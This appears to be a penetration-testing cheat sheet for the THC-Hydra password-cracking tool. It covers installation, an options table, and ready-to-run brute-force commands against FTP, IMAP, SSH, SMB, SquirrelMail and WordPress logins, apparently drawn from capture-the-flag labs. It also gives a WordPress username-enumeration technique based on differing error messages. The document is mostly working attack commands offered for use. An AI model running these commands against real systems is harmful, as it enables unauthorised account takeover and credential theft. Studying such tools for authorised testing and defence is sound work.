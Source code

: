 # Clone
```bash
git clone https://github.com/vanhauser-thc/thc-hydra
```

# Compile
```bash
./configure
make
make install
```

| Option | Description |
|--------|-------------|
| -R |      restore a previous aborted/crashed session |
| -I |      ignore an existing restore file (don't wait 10 seconds) |
| -S |      perform an SSL connect |
| -s PORT |  if the service is on a different default port, define it here |
| -l LOGIN or -L FILE | login with LOGIN name, or load several logins from FILE |
| -p PASS  or -P FILE | try password PASS, or load several passwords from FILE |
| -x MIN:MAX:CHARSET | password bruteforce generation, type "-x -h" to get help |
| -y |      disable use of symbols in bruteforce, see above |
| -r |      use a non-random shuffling method for option -x |
| -e nsr |   try "n" null password, "s" login as pass and/or "r" reversed login |
| -u |      loop around users, not passwords (effective! implied with -x) |
| -C FILE |  colon separated "login:pass" format, instead of -L/-P options |
| -M FILE |  list of servers to attack, one entry per line, ':' to specify port |
| -o FILE |  write found login/password pairs to FILE instead of stdout |
| -b FORMAT | specify the format for the -o FILE: text(default), json, jsonv1 |
| -f / -F |   exit when a login/pass pair is found (-M: -f per host, -F global) |
| -t TASKS | run TASKS number of connects in parallel per target (default: 16) |
| -T TASKS | run TASKS connects in parallel overall (for -M, default: 64) |
| -w / -W TIME |  wait time for a response (32) / between connects per thread (0) |
| -c TIME |   wait time per login attempt over all threads (enforces -t 1) |
| -4 / -6 |   use IPv4 (default) / IPv6 addresses (put always in [] also in -M) |
| -v / -V / -d |  verbose mode / show login+pass for each attempt / debug mode  |
| -O |      use old SSL v2 and v3 |
| -K |      do not redo failed attempts (good for -M mass scanning) |
| -q |      do not print messages about connection errors |
| -U |      service module usage details |
| -m OPT |    options specific for a module, see -U output for information |
| -h |      more command line options (COMPLETE HELP) |
| server |    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option) |
| service |   the service to crack (see below for supported protocols) |
| OPT |       some service modules support additional input (-U for module help) |

```bash
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

# Bruteforce
##### General Syntax
```bash
hydra -L <Username List> -P <Password List> <Target Host> <Protocol>
hydra -f -l <username> -P <Password List> <Target Host> <Protocol>
hydra -f -l <username> -P <Password List> <Protocol>://<Target Host> 

# -l specifies username
# -L specifies username list
# -p specifies password
# -P specifies password list
# -t <#> specifies thread count per host (optional).
# -T <#> specifies total thread count across all hosts (optional).
# -f quits on success.
# -M <Filename> specifies target hosts list
# -o <Filename> outputs the results to the file specified
```

##### SSH
```bash
hydra -f -l <username> -P /usr/share/wordlists/rockyou.txt <Target Host> ssh
```

##### SMB
```bash
hydra -L users.txt -P <Password List> <Target Host> smb
```

##### SquirrelMail (HTTP Form Post)
```bash
hydra -l <username> -P log1.txt 10.10.34.188 http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

##### WordPress (HTTP Form Post)
```bash
hydra -f -l <username> -P <Password List> <Target Host> -V http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

# Check for usernames.  The password does not matter, because WordPress reports whether the username is invalid or the password.
hydra -vV -L fsocity.dic.uniq -p wedontcare <Target Host> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -o wpusers.txt
# Check for passwords.  Use usernames recovered from previous step.
hydra -vV -L wpusers-clean.txt -P fsocity.dic.uniq <Target Host> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -o wppasswords.txt
```
###### [Test WordPress Logins With Hydra on Kali Linux](https://linuxconfig.org/test-wordpress-logins-with-hydra-on-kali-linux/)


# References
[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)